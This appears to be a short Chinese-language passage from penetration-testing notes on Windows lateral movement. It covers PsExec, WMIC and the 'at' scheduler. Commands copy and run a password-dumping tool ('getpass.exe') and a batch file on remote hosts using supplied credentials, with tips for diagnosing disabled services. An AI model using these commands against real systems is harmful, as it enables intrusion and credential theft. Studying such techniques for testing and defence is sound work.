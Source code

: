 **at过去后如果找不到网络路径,则判断是目标主机已禁用Task Scheduler服务**

####psexec  
第一次运行会弹框,输入–accepteula这个参数就可以绕过  
```
psexec.exe \\ip –accepteula -u username -p password program.exe
```
![](/sourcepictures/2017/11/06/6/1.jpg)

另外两个比较重要的参数  
```
-c <[路径]文件名>:拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除）
-d 不等待程序执行完就返回
比如想上传一个本地的getpass到你远程连接的服务器上去:
Psexec.exe \\ip –u user –p pass –c c:\getpass.exe –d
```
另外学习一波pstools的一些运用：  
http://blog.csdn.net/sysprogram/article/details/13001781

**如果出现找不到网络名，判断目标主机已禁用ADMIN$共享**

####wmic  
net use后：  
```
copy 1.bat \\host\c$\windows\temp\1.bat

wmic /node:ip /user:test /password:testtest process call create c:\windows\temp\1.bat
```
![](/sourcepictures/2017/11/06/6/2.jpg)
